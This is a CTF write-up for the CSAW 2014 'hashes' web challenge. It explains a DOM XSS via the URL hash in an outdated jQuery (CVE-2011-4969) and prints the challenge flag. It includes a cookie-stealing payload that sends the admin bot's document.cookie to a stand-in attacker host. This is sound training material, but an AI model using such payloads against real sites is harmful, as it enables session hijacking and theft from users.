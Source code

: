 # CSAW CTF 2014: hashes

**Category:** Web
**Points:** 300
**Description:**

> location, location, location
>
> Chal is very very stable. If you were scanning the site while I was doing dev work your requests are probably being dropped.
>
> <http://54.86.199.163:7878/>
>
> Written by ColdHeat

## Write-up

The linked page uses an old version of the jQuery library (v1.6.1), [which enables an XSS vulnerability when e.g. `$('#' + userContent)` is called](http://bugs.jquery.com/ticket/9521) ([CVE-2011-4969](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2011-4969)). The page also contains this script:

```js
$(window).bind( 'hashchange', function(e) {
  $('.image').hide()
  tag = window.location.hash
  $(tag).show()
});
tag = window.location.hash
$(tag).show()
```

This makes it possible to inject arbitrary JavaScript simply by changing the hash in the URL. For example, [`#<img src=/ onerror=alert(1)>`](http://54.86.199.163:7878/) displays an alert box.

The page also features a form that can be used to submit image URLs that will then be visited by a bot. Assuming the bot has special admin privileges on this website, and possibly an interesting cookie, let’s try submitting this URL:

```
http://54.86.199.163:7878/#<img src=/ onerror=location='https://your-site.example.com/log?c='+document.cookie>
```

This redirects the bot to a page under our control, passing along the cookie value. The `log` script is a simple server-side script written in your language of choice that simply writes the `c` URL parameter value to a file, or stores it in a database.

A few moments after submitting the above URL, the bot indeed visits our page, and the logger script logs the cookie:

```
win="flag{these_browser_bots_are_annoying}"
```

The flag is `these_browser_bots_are_annoying`.

## Other write-ups

* <http://zoczus.blogspot.com/2014/09/csaw-ctf-web300-writeup.html>
